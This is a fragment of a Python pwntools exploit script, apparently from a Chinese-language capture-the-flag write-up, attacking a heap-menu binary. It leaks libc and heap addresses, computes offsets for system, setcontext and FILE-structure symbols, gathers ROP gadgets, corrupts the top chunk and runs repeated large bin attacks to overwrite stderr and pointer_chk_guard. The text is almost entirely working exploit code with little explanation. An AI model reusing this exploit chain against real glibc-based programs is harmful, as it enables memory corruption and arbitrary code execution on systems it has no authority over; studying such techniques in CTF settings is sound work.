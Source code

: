   ```python
   
   free(1)
   add(0x4b0,15)    #15 将chunk1放入large bin
   show(1)
   run()
   
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   libc_base = addr - 0x1E4010
   
   #计算__free_hook和system地址
   setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
   system_addr        = libc_base + libc.sym["system"]
   IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
   IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
   IO_wfile_jumps_addr = libc_base + libc.sym["_IO_wfile_jumps"]
   _IO_str_jumps_addr = libc_base + 0x1E5580
   stderr_addr = libc_base + libc.sym["stderr"]
   _IO_cookie_jumps_addr = libc_base + 0x1E4A40
   
   success("libc_addr          ==>" + hex(libc_base))
   success("system_addr        ==>" + hex(system_addr))
   success("setcontext_addr    ==>" + hex(setcontext_addr))
   success("IO_2_1_stdout_addr ==>" + hex(IO_2_1_stdout_addr))
   success("IO_list_all_addr   ==>" + hex(IO_list_all_addr))
   success("IO_wfile _jumps_addr==>" + hex(IO_wfile_jumps_addr))
   success("stderr_add         ==>" + hex(stderr_addr))
   success("_IO_str_jumps_addr ==>" + hex(_IO_str_jumps_addr))
   success("_IO_cookie_jumps_addr ==>" + hex(_IO_cookie_jumps_addr))
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr = libc.sym['write']+libc_base
   
   pop_rdi_ret=libc_base + 0x000000000002858f
   pop_rdx_r12_ret=libc_base + 0x0000000000114161
   pop_rax_ret=libc_base + 0x0000000000045580
   pop_rsi_ret=libc_base + 0x000000000002ac3f
   ret= libc_base + 0x0000000000026699
   
   # 泄漏堆地址 同时完成large bin attack 攻击 覆盖掉IO_list_all
   free(0)
   edit(1,p64(addr)*2 + p64(0) + p64(stderr_addr-0x20))
   add(0x4b0,15)    #15 将chunk0放入large bin 触发large bin attack
   show(1)
   run()
   p.recvuntil(b'Malloc Done\n')
   heap_addr = u64(p.recv(6).ljust(8,b'\x00'))-0x2760
   success("heap_addr==>"+hex(heap_addr))
   
   # ========== 修改 top_chunk ==========
   add(0x4c0,15)   # 用来修改 top_chunk的size
   free(15)        # 提高 top_chunk 
   add(0x4b0,14)
   edit(15,b"\x00"*0x4b8 + p64(0x700))
   run()
   
   # ========== large bin attack 覆盖 pointer_chk_guard==========
   free(2)
   pointer_chk_guard_addr = libc_base - 0x2890
   success("pointer_chk_guard_addr ==>" + hex(pointer_chk_guard_addr))
   edit(1,p64(addr)*3 + p64(pointer_chk_guard_addr-0x20))
   add(0x4b0,15)    #15 将chunk0放入large bin 触发large bin attack
   run()
   ```